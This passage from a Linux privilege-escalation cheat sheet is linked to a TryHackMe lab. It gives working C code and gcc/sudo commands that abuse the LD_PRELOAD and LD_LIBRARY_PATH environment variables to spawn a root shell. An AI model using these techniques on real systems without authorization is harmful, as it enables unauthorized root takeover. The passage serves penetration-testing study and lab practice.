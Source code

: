 * **Resource:** [TryHackMe Room](https://tryhackme.com/room/linuxprivesc)
* Check which environment variables are inherited (look for the `env_keep` options in `sudo -l`).

**LD\_PRELOAD** `LD_PRELOAD` is an optional environmental variable containing one or more paths to shared libraries that the loader will load before any other shared library.

```c
/* preload.c */
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setresuid(0,0,0);
  system("/bin/bash -p");
}
```

**Compile and run:**

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```

**LD\_LIBRARY\_PATH** `LD_LIBRARY_PATH` provides a list of directories where shared libraries are searched for first.

1.  Run `ldd` against the program you can execute as sudo:

    ```bash
    ldd /usr/sbin/apache2
    ```
2.  Create a shared object with the same name as one of the listed libraries (e.g., `libcrypt.so.1`)

    ```c
    /* library_path.c */
    #include <stdio.h>
    #include <stdlib.h>
    static void hijack() __attribute__((constructor));
    void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
    }
    ```
3.  **Compile and run:**

    ```bash
    gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
    sudo LD_LIBRARY_PATH=/tmp program-name-here
    ```

#### Other Escalation Methods
